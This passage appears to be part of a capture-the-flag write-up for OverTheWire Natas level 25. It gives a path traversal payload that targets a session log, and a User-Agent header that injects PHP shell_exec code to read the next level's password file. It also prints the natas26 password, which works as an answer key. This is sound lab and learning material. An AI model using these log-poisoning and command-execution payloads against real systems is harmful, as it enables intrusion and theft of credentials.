 
- To read the password we will use this payload: `….//….//….//….//….//var/www/natas/natas25/logs/natas25_[PHPSESSID].log` and change the User-Agent in order to read the password: `<?php echo shell_exec("cat /etc/natas_webpass/natas26"); ?>`

  <img src="https://github.com/mauzware/OverTheWire-Natas/blob/main/natas25/pw.png"/>

---

## 🏁 Password for the next level

`Password for natas26 is: cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
